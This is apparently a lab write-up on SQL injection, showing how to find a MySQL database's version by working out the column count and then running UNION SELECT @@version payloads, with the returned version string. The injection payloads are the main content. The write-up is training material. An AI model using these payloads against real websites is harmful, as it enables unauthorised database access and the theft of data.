

**SQL injection attack, querying the database type and version on MySQL and Microsoft**
*-Goal: display database version string*

*-Hints:*

- Database type: 	*`Query`*
- Microsoft, MySQL: 	*`SELECT @@version`*
- Oracle: 	*`SELECT * FROM v$version`*
- PostgreSQL: 	*`SELECT version()`*

For example, you could use a UNION attack with the following input:
`' UNION SELECT @@version--`

*-Analysis:*
1. Determine the number of the columns:
` ' order by 3#`: we get error, so there are 2 columns
2. Determine the data type of columns:
` ' UNION SELECT 'a','a'#`: no error page, cause two columns are text type
3. Output the version:
` ' UNION SELECT @@version,NULL#`
8.0.39-0ubuntu0.20.04.1

*`LAB SOLVED`*

